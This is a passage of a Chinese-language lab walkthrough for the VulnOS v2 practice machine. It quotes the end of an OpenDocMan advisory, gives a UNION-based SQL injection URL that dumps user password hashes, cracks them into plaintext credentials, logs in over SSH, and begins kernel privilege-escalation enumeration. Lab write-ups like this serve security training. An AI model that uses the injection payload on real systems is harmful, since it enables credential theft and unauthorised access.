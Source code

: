 ```html
[3] Common Vulnerabilities and Exposures (CVE) - http://cve.mitre.org/ - international in scope and free for public use, CVEÂ® is a dictionary of publicly known information security vulnerabilities and exposures.
[4] Common Weakness Enumeration (CWE) - http://cwe.mitre.org - targeted to developers and security practitioners, CWE is a formal list of software weakness types.
[5] ImmuniWebÂ® - http://www.htbridge.com/immuniweb/ - is High-Tech Bridge's proprietary web application security assessment solution with SaaS delivery model that combines manual and automated vulnerability testing.
------------------------------------------------------------------------

Disclaimer: The information provided in this Advisory is provided "as is" and without any warranty of any kind. Details of this Advisory may be updated in order to provide as accurate information as possible. The latest version of the Advisory is available on web page [1] in the References.   
```

可以看到有俩漏洞有机会利用一下，第一个是sql注入漏洞，尝试一下这个payload：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402050338480.png" alt="image-20240205013925779" style="zoom:50%;" />

获取到了信息！但是还不够，尝试对payload进行修改，获取相关的密码：

```php
/ajax_udf.php?q=1&add_value=odm_user UNION SELECT 1,password,3,4,5,6,7,8,9 from odm_user
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402050338481.png" alt="image-20240205015224594" style="zoom:33%;" />

![image-20240205015252209](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402050338482.png)

查看一下加密方式：

```shell
hash-identifier b78aae356709f8c31118ea613980954b
```

![image-20240205015456898](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402050338483.png)

去[解密](https://www.somd5.com/)一下这俩：

```text

webmin: b78aae356709f8c31118ea613980954b  -->  webmin1980
guest:  084e0343a0486ff05530df6c705c8bb4  -->  guest
```

尝试 ssh 登录一下：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402050338484.png" alt="image-20240205020244918" style="zoom:50%;" />

## 提权

### 系统内核提权

```shell
uname -a
# Linux VulnOSv2 3.13.0-24-generic #47-Ubuntu SMP Fri May 2 23:31:42 UTC 2014 i686 i686 i686 GNU/Linux
lsb_release -a
# No LSB modules are available.
# Distributor ID: Ubuntu
# Description:    Ubuntu 14.04.4 LTS
# Release:        14.04
# Codename:       trusty
```
